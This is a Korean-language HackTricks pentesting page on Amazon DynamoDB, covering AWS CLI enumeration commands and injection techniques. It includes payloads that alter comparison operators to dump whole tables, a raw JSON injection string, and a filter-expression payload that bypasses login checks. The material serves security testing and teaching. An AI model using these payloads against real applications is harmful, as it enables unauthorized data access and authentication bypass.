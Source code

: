 # AWS - DynamoDB Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 처음부터 전문가까지 배우세요!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## DynamoDB

### 기본 정보

Amazon DynamoDB는 **크기에 관계없이 고성능 애플리케이션을 구동하기 위해 맞춤 설정된**, **완전히 관리되고 서버리스인 키-값 NoSQL 데이터베이스**로 AWS에서 제공됩니다. 이 서비스는 내재된 보안 조치, 중단 없는 백업, 여러 지역 간 자동 복제, 통합형 인메모리 캐싱 및 편리한 데이터 내보내기 유틸리티를 포함한 강력한 기능을 보장합니다.

DynamoDB의 맥락에서, 전통적인 데이터베이스를 설정하는 대신 **테이블이 생성**됩니다. 각 테이블은 **테이블의 기본 키**의 필수 구성 요소로 **파티션 키**의 지정을 요구합니다. 이 파티션 키는 본질적으로 **해시 값**으로, 항목을 검색하고 데이터를 다양한 호스트에 분산하는 데 중요한 역할을 합니다. 이 분산은 데이터베이스의 확장성과 가용성을 유지하는 데 중요합니다. 또한 데이터 구성을 더 세밀하게 정의하기 위해 **정렬 키**를 통합하는 옵션이 있습니다.

### 암호화

기본적으로 DynamoDB는 **Amazon DynamoDB에 속하는 KMS 키**를 사용하며, 적어도 귀하의 계정에 속하는 AWS 관리형 키가 아닙니다.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### 백업 및 S3로 내보내기

**테이블 백업을 예약**하거나 **요청에 따라 생성**할 수 있습니다. 또한 **테이블에 대한 시점 복구 (PITR)를 활성화**할 수도 있습니다. 시점 복구는 **35일 동안** DynamoDB 데이터의 지속적인 **백업**을 제공하여 우연한 쓰기 또는 삭제 작업에 대비할 수 있도록 도와줍니다.

또한 **테이블의 데이터를 S3로 내보낼 수** 있지만, 테이블은 **PITR를 활성화**해야 합니다.

### GUI

[DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack) 등 로컬 Dynamo 서비스에 대한 GUI가 있어 유용할 수 있습니다: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### 열거
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### 인증되지 않은 액세스

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### 권한 상승

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### 사후 공격

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### 지속성

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB Injection

### SQL Injection

**SQL 구문**을 사용하여 DynamoDB 데이터에 액세스하는 방법이 있으므로, 전형적인 **SQL 인젝션도 가능**합니다.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL Injection

DynamoDB에서는 다양한 **조건**을 사용하여 데이터를 검색할 수 있으며, 일반적인 NoSQL Injection과 같이 데이터를 검색하는 데 **더 많은 조건을 연결할 수 있다면** 숨겨진 데이터를 얻거나 전체 테이블을 덤프할 수 있습니다.\
DynamoDB에서 지원하는 조건은 여기에서 찾을 수 있습니다: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

데이터에 **`query`** 또는 **`scan`**을 통해 액세스하는 경우 **다른 조건**이 지원됨을 유의하십시오.

{% hint style="info" %}
실제로 **Query** 작업은 작동하려면 **기본** 키에서 **조건 "EQ (equals)"**을 지정해야 하므로 NoSQL 인젝션에 **덜 취약**하며 (또한 작업을 매우 제한함).
{% endhint %}

수행되는 **비교를 변경**하거나 새로운 비교를 추가할 수 있다면 더 많은 데이터를 검색할 수 있습니다.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Raw Json injection

**DynamoDB**은 데이터베이스 내에서 데이터를 검색하기 위해 **Json** 객체를 허용합니다. 검색에 보내는 json 객체에 쓸 수 있다면, 데이터베이스 덤프를 만들어 모든 내용을 볼 수 있습니다.

예를 들어, 다음과 같이 요청에 주입하는 경우:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

공격자는 다음과 같이 삽입할 수 있습니다:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

ID 1000을 검색하고 Id 문자열이 0보다 큰 모든 데이터를 찾는 "EQ" 조건을 수정할 수 있습니다.

### :property Injection

일부 SDK는 수행할 필터링을 나타내는 문자열을 사용할 수 있습니다:

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

DynamoDB에서 항목을 스캔하는 동안 **필터 표현식**에서 **속성 값**을 **대체**하기 위해 검색할 때, 토큰은 **`:`** 문자로 **시작**해야 합니다. 이러한 토큰은 **실행 시간에 실제 속성 값으로 대체**됩니다.

따라서 이전과 같은 로그인은 다음과 같이 우회될 수 있습니다:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 제로부터 전문가까지 배우세요</strong>!</summary>

다른 방법으로 HackTricks를 지원하는 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하길 원한다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 우리의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
